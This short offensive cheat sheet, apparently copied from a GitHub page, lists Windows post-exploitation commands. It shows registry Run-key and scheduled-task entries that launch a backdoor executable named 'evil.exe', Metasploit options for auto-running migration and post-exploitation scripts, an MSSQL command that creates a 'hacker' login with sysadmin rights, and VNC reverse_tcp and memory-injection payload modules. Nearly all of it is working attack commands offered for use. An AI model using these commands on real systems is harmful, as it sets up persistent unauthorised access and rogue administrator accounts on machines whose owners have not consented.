 ### Using payload as a backdoor from a shell

```
REG add HKEY_CURRENT_USER\Software\Microsoft\Windows\Curre ntVersion\Run /v firewall /t REG_SZ /d "c:\windows\system32\evil.exe" /f
at 19:00 /every:M,T,W,Th,F cmd /c start "%USERPROFILE%\evil.exe"
SCHTASKS /Create /RU "SYSTEM" /SC MINUTE /MO 45 /TN FIREWALL /TR "%USERPROFILE%\evil.exe"  /ED 11/11/2011
```
==========

```
set options "InitialAutoRunScript=migrate -f", "AutoRunScript=post/multi/gather/run_console_rc_file RESOURCE=/opt/scripts/resource/post.rc
```
==========

```
auxiliary(mssql_sql) > set sql EXEC sp_addlogin hacker, password;EXEC master.dbo.sp_addsrvrolemember hacker, sysadmin;  —priv
run
```
==========

getgui will not work on Windows 2000 Server.
```
Instead try: set PAYLOAD windows/vncinject/reverse_tcp
```

For injecting into memory:
```
 use exploit/windows/local/payload_inject
 ```
